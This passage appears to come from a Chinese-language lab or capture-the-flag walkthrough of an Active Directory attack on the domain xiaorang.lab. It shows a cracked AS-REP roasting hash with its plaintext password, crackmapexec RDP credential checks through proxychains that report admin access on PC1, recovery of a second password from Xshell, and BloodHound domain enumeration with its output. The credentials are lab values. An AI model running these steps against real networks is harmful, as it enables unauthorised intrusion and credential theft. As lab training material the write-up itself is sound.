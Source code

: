 ```
$krb5asrep$23$wangyun@xiaorang.lab@XIAORANG.LAB:bedfc449e6105f699c5e642d3d5c07a5$a68e295c7c2c294830cd19d8b7e2412733debf965ece8226a3f6f31c9a2df81a6f875e08d85d05e3ec8d3c3be7efd7dc5a35494381b08c6d596bfa1e34b3cc535906b7a7b8ddf27661ae26f2de31151b42d087c21bdf1882d84556d812b65df3a3084f8abfc8edf835538a842a4368e35459cebf9e673f07780331b6849ece509dffd4faad0bb4df5243e049227e13442c7a2668962a52b00bed55a8783cfe0243881959d345efd4d134eb7df81a4b87f1c7358fd943c6294ed55131f7c19b4ec81b07a3782748d8c840d184ca98db97e24f1cbf4f763aa0ac26cea81cd1894944db0ef6304e7e84c48677ef:Adm12geC

```

该域用户凭据可以登录 PC1$ 主机：

```
┌──(root㉿kali)-[~]
└─# proxychains4 -q cme rdp 172.22.60.52/24 -u wangyun -p Adm12geC
RDP         172.22.60.42    3389   Fileserver       [*] Windows 10 or Windows Server 2016 Build 17763 (name:Fileserver) (domain:xiaorang.lab) (nla:True)
RDP         172.22.60.8     3389   DC               [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC) (domain:xiaorang.lab) (nla:True)
RDP         172.22.60.15    3389   PC1              [*] Windows 10 or Windows Server 2016 Build 17763 (name:PC1) (domain:xiaorang.lab) (nla:True)
RDP         172.22.60.42    3389   Fileserver       [-] xiaorang.lab\wangyun:Adm12geC
RDP         172.22.60.8     3389   DC               [+] xiaorang.lab\wangyun:Adm12geC
RDP         172.22.60.15    3389   PC1              [+] xiaorang.lab\wangyun:Adm12geC (Pwn3d!)
```

登录用户桌面后，在 Xshell 中找到用户密码并解密，获取到 zhangxin/admin4qwY38cc 用户凭据：
![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/e82242be26dcfb39.png)

域环境信息收集：

```
┌──(root㉿kali)-[~]
└─# proxychains4 -q bloodhound-python -u wangyun -p Adm12geC -d xiaorang.lab -dc DC.xiaorang.lab -ns 172.22.60.8 -c all --auth-method ntlm --dns-tcp --zip
INFO: Found AD domain: xiaorang.lab
INFO: Connecting to LDAP server: DC.xiaorang.lab
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 4 computers
INFO: Connecting to LDAP server: DC.xiaorang.lab
INFO: Found 12 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer:
INFO: Querying computer: fileserver.xiaorang.lab
INFO: Querying computer: PC1.xiaorang.lab
INFO: Querying computer: DC.xiaorang.lab
WARNING: DCE/RPC connection failed: SMB SessionError: STATUS_TRUSTED_RELATIONSHIP_FAILURE(The logon request failed because the trust relationship between this workstation and the primary domain failed.)
WARNING: DCE/RPC connection failed: SMB SessionError: STATUS_TRUSTED_RELATIONSHIP_FAILURE(The logon request failed because the trust relationship between this workstation and the primary domain failed.)
WARNING: DCE/RPC connection failed: SMB SessionError: STATUS_TRUSTED_RELATIONSHIP_FAILURE(The logon request failed because the trust relationship between this workstation and the primary domain failed.)
WARNING: DCE/RPC connection failed: SMB SessionError: STATUS_TRUSTED_RELATIONSHIP_FAILURE(The logon request failed because the trust relationship between this workstation and the primary domain failed.)
```